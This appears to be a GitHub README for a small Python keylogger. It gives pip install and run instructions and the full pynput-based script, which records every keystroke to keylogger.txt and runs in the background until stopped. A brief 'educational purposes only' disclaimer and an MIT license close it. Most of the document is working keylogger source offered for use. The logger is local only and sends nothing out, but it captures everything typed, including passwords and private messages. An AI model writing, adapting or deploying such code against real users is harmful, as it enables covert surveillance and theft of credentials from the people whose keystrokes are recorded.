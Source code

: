 Overview
This is a simple keylogger implemented in Python using the pynput library. It captures keystrokes and logs them to a text file.

Features
Logs all keystrokes
Saves captured keystrokes to keylogger.txt
Runs in the background until manually stopped

pip install pynput
Usage
Run the script using:

sh
Copy
Edit
python keylogger.py
Keystrokes will be logged in keylogger.txt.

Code Explanation:
The script listens for keystrokes and writes them to keylogger.txt. It handles exceptions for non-character keys.

python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keylogger.txt", "a") as f:
        try:
            char = key.char
            f.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
Disclaimer
This script is for educational purposes only. Unauthorized use of keyloggers is illegal and unethical. Use responsibly and with proper consent.

License
This project is licensed under the MIT License.
